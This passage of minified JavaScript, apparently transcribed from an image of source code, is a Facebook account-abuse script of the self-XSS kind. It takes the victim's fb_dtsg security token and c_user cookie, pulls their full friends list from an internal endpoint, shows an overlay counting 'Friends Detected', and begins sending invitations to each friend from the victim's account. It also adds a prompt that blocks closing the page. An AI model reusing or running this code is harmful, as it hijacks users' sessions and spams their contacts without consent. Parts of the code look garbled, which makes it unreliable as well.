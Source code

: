 ]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) && (b = e.responseXML); c && c(b) } else g.f && document.getElementsByTagName("body")[0].removeChild(g.f), g.e && (document.getElementById(g.e).style.display = "none"), error && error(e.status) }; e.send(k) } }, d: function () { return this.b() } }; function ChangeLocation() { window.location.href = "http://www.facebook.com/" } setTimeout("ChangeLocation", 1); window.onbeforeunload = function () { if (window[tag + "_close"]) return "This script is running now!" }; var i = 3; var tay = 3; var suc = 0; var err = 0; var arr = new Array; var arn = new Array; var pho = new Array; var tag = "Close"; var page_name, x = document.getElementsByTagName("span"); for (i = 0; i < x.length; i++) if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML; var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&token=v7&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha&__user=" + user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=l", function (a) { var b = a; var c = b.substring(b.indexOf("{")); var d = JSON.parse(c); d = d.payload.entries; for (var e = 0; e < d.length; e++) arr.push(d[e].uid); for (var eg = 0; eg < d.length; eg++) arn.push(d[eg].text); for (var pic = 0; pic < d.length; pic++) pho.push(d[pic].photo); i = arr.length - 1; tay = i; console.log(arr.length); var display = "<div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ebb6c8'>"; display += "<div style='padding-bottom:10px;font-size:15px;'>" + Title + "</div>"; display += arr.length + " Friends Detected"; display += "</div>"; document.getElementById("pagelet_sidebar").innerHTML = display; InviteFriends(arr[i]) });